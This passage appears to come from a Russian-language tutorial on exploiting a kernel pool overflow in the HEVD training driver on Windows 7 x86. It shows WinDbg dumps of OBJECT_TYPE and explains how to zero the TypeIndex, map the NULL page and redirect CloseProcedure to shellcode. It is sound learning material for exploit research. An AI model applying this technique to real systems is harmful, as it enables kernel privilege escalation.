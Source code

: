 ```js
      +0x002 SecurityRequired : 0y0
      +0x002 MaintainHandleCount : 0y0
      +0x002 MaintainTypeList : 0y0
      +0x002 SupportsObjectCallbacks : 0y0
      +0x002 CacheAligned     : 0y0
      +0x004 ObjectTypeCode   : 2
      +0x008 InvalidAttributes : 0x100
      +0x00c GenericMapping   : _GENERIC_MAPPING
         +0x000 GenericRead      : 0x20001
         +0x004 GenericWrite     : 0x20002
         +0x008 GenericExecute   : 0x120000
         +0x00c GenericAll       : 0x1f0003
      +0x01c ValidAccessMask  : 0x1f0003
      +0x020 RetainAccess     : 0
      +0x024 PoolType         : 0 ( NonPagedPool )
      +0x028 DefaultPagedPoolCharge : 0
      +0x02c DefaultNonPagedPoolCharge : 0x40
      +0x030 DumpProcedure    : (null) 
      +0x034 OpenProcedure    : (null) 
      +0x038 CloseProcedure   : (null) 
      +0x03c DeleteProcedure  : (null) 
      +0x040 ParseProcedure   : (null) 
      +0x044 SecurityProcedure : 0x8288532c 
      +0x048 QueryNameProcedure : (null) 
      +0x04c OkayToCloseProcedure : (null) 
   +0x078 TypeLock         : _EX_PUSH_LOCK
      +0x000 Locked           : 0y0
      +0x000 Waiting          : 0y0
      +0x000 Waking           : 0y0
      +0x000 MultipleShared   : 0y0
      +0x000 Shared           : 0y0000000000000000000000000000 (0)
      +0x000 Value            : 0
      +0x000 Ptr              : (null) 
   +0x07c Key              : 0x6e657645
   +0x080 CallbackList     : _LIST_ENTRY [ 0x84f60498 - 0x84f60498 ]
      +0x000 Flink            : 0x84f60498 
      +0x004 Blink            : 0x84f60498 
```

По оффсет 0x28 находится структура TypeInfo. Один из её членов ClosePorcedure по оффсету 0x38. Начиная с оффсета 0x0, на который ссылается указатель OBJECT_TYPE, который мы нашли в таблице, CloseProcedure находится по 0x28 + 0x38 = 0x60. ЭТО указатель на функцию, которая будет вызвана при вызове CloseHandle, чтобы освободить Event Objects из невыгружаемого пула памяти. Это наша цель

![Pool attack structure](/assets/post_images/9.png)

Когда мы особождаем чанк с помощью CloseHandle, ядро идёт по адресу, на который ссылается значение массива по индексу 0xC и ищет по оффсету 0x60 указатель на функцию, вызывая её. 

```js
kd> dd nt!ObTypeIndexTable
82761ee0  00000000 bad0b0b0 84ec7860 84ec7798
```
Первый указатель - это 0x0 и мы из [ещё не сделанный урок](https://h0mbre.github.io/HEVD_NULLPointerDereference_32bit/#) знаем, что мы можем мапить NULL страницу в Windows 7 x86. Итак, благодаря вышеупомянутым блогерам, наш дальнейший путь ясен. Мы корраптим только значение 0xC внутри OBJECT_HEADER, чтобы вместо него было установлено 0x0. Все остальное мы оставим как есть с помощью перезаписи. Таким образом, когда мы освободим этот кусок, ядро начнет искать смещение 0x60 для указателя функции с 0x000000. Поэтому мы просто отобразим страницу NULL и поместим указатель на наш шеллкод по смещению 0x60.
